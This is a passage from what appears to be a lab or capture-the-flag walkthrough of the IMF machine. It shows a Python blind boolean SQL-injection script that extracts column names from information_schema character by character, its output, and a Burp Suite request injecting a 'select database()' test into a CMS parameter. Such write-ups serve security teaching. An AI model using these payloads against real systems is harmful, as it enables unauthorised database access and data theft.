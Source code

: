 ```python3
  28   │ 
  29   │ 
  30   │     for dbs in range(0, 6):
  31   │         for position_character in range(1, 30): 
  32   │             for character in characters:
  33   │                 sqli = main_url + f"'+and+(select+substring(column_name,{position_character},1)+from+information_schema.columns+where+table_schema='admin'+and+table_name='pages'+limit+{dbs},1)='{character}"
  34   │ 
  35   │                 p1.status(sqli)
  36   │ 
  37   │                 r = requests.get(sqli, cookies=cookies)
  38   │ 
  39   │                 if "Welcome to the IMF Administration." in r.text:
  40   │                     database += character
  41   │                     p2.status(database)
  42   │                     break
  43   │ 
  44   │             if database[-1:] == ",":
  45   │                 database += " "
  46   │ 
  47   │         if database[-1:] != "," and len(database) > 0:
  48   │             database += ","
  49   │ 
  50   │     if database[-1:] == ",":
  51   │         database = database[:-1]
  52   │ 
  53   │     p2.success(database)
  54   │ 
  55   │ 
  56   │ if __name__ == '__main__':
  57   │ 
  58   │     makeRequest()
  
  ```
  
  the output 
  
  ```python 
  [▝] Fuerza bruta: http://192.168.100.52/imfadministrator/cms.php?pagename=home'+and+(select+substring(column_name,29,1)+from+information_schema.columns+where+table_schema='admin'+and+table_name='pages'+limit+5,1)='_
[+] Columns: id,pagename,pagedata,
  
  ```
  
  now for the data is important to find where dbs are opened in this session 
  
  from  the BurpSuite /imfadministrator/cms.php?pagename=home'+and+(select+database())%3d'admin
  
  ```php
  GET /imfadministrator/cms.php?pagename=home'+and+(select+database())%3d'admin HTTP/1.1

Host: 192.168.100.52

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.100.52/imfadministrator/cms.php?pagename=home

Accept-Encoding: gzip, deflate
  ```